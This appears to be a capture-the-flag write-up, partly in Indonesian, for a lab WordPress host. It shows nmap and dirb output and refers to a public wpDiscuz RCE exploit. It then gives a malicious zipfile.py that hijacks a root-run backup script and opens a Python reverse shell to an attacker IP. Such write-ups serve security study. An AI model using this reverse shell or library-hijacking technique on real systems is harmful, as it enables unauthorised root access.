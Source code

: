  
# Enemuration

#### Nmap

```
# Nmap 7.94SVN scan initiated Wed Feb 21 12:04:09 2024 as: nmap -sC -sV -oN nmapx -p- -T4 --min-rate=1000 -v 10.1.2.151
Warning: 10.1.2.151 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.1.2.151
Host is up (0.25s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE    SERVICE  VERSION
22/tcp   open     ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 5a:04:2d:83:23:09:72:77:ec:f3:ac:cf:b3:d6:81:a4 (ECDSA)
|_  256 fa:2a:ae:56:a4:e4:a8:04:1c:c3:91:68:a9:fa:2d:43 (ED25519)
80/tcp   open     http     Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.52 (Ubuntu)
2685/tcp filtered mpnjsocl
7628/tcp filtered zen-pawn
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb 21 12:05:45 2024 -- 1 IP address (1 host up) scanned in 96.80 seconds
```

#### Dirb

```

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirbx.txt
START_TIME: Wed Feb 21 12:04:20 2024
URL_BASE: http://10.1.2.151/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.1.2.151/ ----
+ http://10.1.2.151/index.html (CODE:200|SIZE:10671)
+ http://10.1.2.151/server-status (CODE:403|SIZE:275)

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirbx.txt
START_TIME: Wed Feb 21 12:23:36 2024
URL_BASE: http://10.1.2.151/wordpress/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.1.2.151/wordpress/ ----
==> DIRECTORY: http://10.1.2.151/wordpress/

---- Entering directory: http://10.1.2.151/wordpress/ ----
+ http://10.1.2.151/wordpress/index.php (CODE:301|SIZE:0)
+ http://10.1.2.151/wordpress/index.php (CODE:301|SIZE:0)
==> DIRECTORY: http://10.1.2.151/wordpress/wp-admin/
==> DIRECTORY: http://10.1.2.151/wordpress/wp-content/
==> DIRECTORY: http://10.1.2.151/wordpress/wp-includes/
+ http://10.1.2.151/wordpress/xmlrpc.php (CODE:405|SIZE:42)

---- Entering directory: http://10.1.2.151/wordpress/wp-admin/ ----
+ http://10.1.2.151/wordpress/wp-admin/admin.php (CODE:302|SIZE:0)
==> DIRECTORY: http://10.1.2.151/wordpress/wp-admin/css/
==> DIRECTORY: http://10.1.2.151/wordpress/wp-admin/images/
==> DIRECTORY: http://10.1.2.151/wordpress/wp-admin/includes/
+ http://10.1.2.151/wordpress/wp-admin/index.php (CODE:302|SIZE:0)
==> DIRECTORY: http://10.1.2.151/wordpress/wp-admin/js/
==> DIRECTORY: http://10.1.2.151/wordpress/wp-admin/maint/
==> DIRECTORY: http://10.1.2.151/wordpress/wp-admin/network/
==> DIRECTORY: http://10.1.2.151/wordpress/wp-admin/user/

---- Entering directory: http://10.1.2.151/wordpress/wp-content/ ----
```


# Exploitation

Melakukan scanning wordpress dengan metasploit untuk mencari beberapa plugin outdated yang rentan.

![alt text](images/scan-metasploit.png)


Eksplotasi Plugin WpDiscuz-7.0.4-RCE menggunakan kode python dari [PoC](https://github.com/hev0x/CVE-2020-24186-wpDiscuz-7.0.4-RCE/blob/main/wpDiscuz_RemoteCodeExec.py)

![alt text](images/user-flag.png)



# Privillage Escalation

Dikarenakan shell yang kurang interaktif menggunakan shell dari code python sebelumnya saya beralih menggunakan metasploit untuk masuk ke dalam shell

![alt text](images/metasploit-shell.png)



Pada directory home/apollo/.local terdapat sebuah python code yang berjalan sebagai root dan yang mana bisa dilakukan library hijacking pada code tersebut.

```
-rwxr-xr-- 1 root     root     1.5K Dec 23 10:37 backup.py
```



**Backup.py**

```py
import shutil
import zipfile
import os

def backup_folder():
    source_folder = '/var/www/html/'  # Specify the source folder path here
    backup_location = '/opt/backup'  # Change this to your desired backup location

    # Ensure the source folder exists
    if not os.path.exists(source_folder):
        print(f"The source folder '{source_folder}' does not exist.")
        return
    
    # Create backup directory if it doesn't exist
    if not os.path.exists(backup_location):
        os.makedirs(backup_location)
    
    # Generate the backup file name
    source_folder_name = os.path.basename(os.path.normpath(source_folder))
    zip_filename = f"{source_folder_name}_backup.zip"
    backup_path = os.path.join(backup_location, zip_filename)

    # Compress the source folder into a ZIP file
    with zipfile.ZipFile(backup_path, 'w', zipfile.ZIP_DEFLATED) as zipf:
        for root, _, files in os.walk(source_folder):
            for file in files:
                file_path = os.path.join(root, file)
                try:
                    # Add files to the ZIP file if permission is granted
                    zipf.write(file_path, os.path.relpath(file_path, source_folder))
                except Exception as e:
                    print(f"Skipping file '{file_path}' due to lack of permission: {e}")
                    continue

    print(f"Backup created successfully at: {backup_path}")

def main():
    backup_folder()

if __name__ == "__main__":
    main()

```


**zipfile.py**

```py
import os
import pty
import socket

lhost = "10.18.200.73"
lport = 4444

ZIP_DEFLATED = 0

class ZipFile:
    def close(*args):
        return

    def write(*args):
        return

    def __init__(self, *args):
        return

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((lhost, lport))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.putenv("HISTFILE",'/dev/null')
pty.spawn("/bin/bash")
s.close()
```


![alt text](images/root-flag.png)